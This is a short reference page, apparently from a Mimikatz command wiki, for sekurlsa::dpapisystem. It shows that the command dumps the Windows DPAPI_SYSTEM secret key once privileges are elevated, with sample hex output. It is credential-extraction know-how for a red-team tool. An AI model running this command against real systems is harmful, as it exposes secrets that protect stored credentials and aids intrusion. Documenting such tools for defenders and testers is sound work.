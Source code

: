 # dpapisystem

It lists the DPAPI\_SYSTEM secret key.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::dpapisystem
DPAPI_SYSTEM
full: c3f9c93d781ff9caa8ba1eb63018c8d869e1278fa17e7c0ff7a4f8c3be91956e1c53000494eaec52
m/u : c3f9c93d781ff9caa8ba1eb63018c8d869e1278f / a17e7c0ff7a4f8c3be91956e1c53000494eaec52
```
